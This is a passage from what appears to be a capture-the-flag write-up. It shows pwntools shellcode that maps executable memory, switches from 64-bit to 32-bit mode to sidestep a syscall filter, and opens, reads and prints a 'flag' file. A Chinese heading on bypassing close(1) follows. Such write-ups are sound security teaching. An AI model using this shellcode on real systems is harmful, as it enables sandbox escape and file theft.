 > **shellcode**
>
> ```python
> shellcode64 = shellcraft.amd64.linux.mmap(0x700000, 0x1000, 7, 0x32, -1, 0)
> shellcode64 += shellcraft.amd64.linux.read(0, 0x700000, 0x1000)
> shellcode64 += """
> mov rsp,0x700800
> mov DWORD PTR [rsp+4], 0x23
> mov DWORD PTR [rsp], 0x700000
> retfd
> """
> shellcode32 = """
> push 0x67616C66
> """
> 
> shellcode32 += """
> push esp
> push 0
> push 0
> pop edx
> pop ecx
> pop ebx
> push 5
> pop eax
> int 0x80
> """   # open
> 
> shellcode32 += """
> push eax
> push esp
> push 0x100
> pop edx
> pop ecx
> add ecx, 0x20
> pop ebx
> push 3
> pop eax
> int 0x80
> """   # read
> shellcode32 += """
> push 1
> pop ebx
> push 4
> pop eax
> int 0x80
> """   # write
> sh.sendline(asm(shellcode64, arch='amd64', bits=64))
> sh.sendline(asm(shellcode32, arch='i386', bits=32))
> ```

### 绕过close(1)
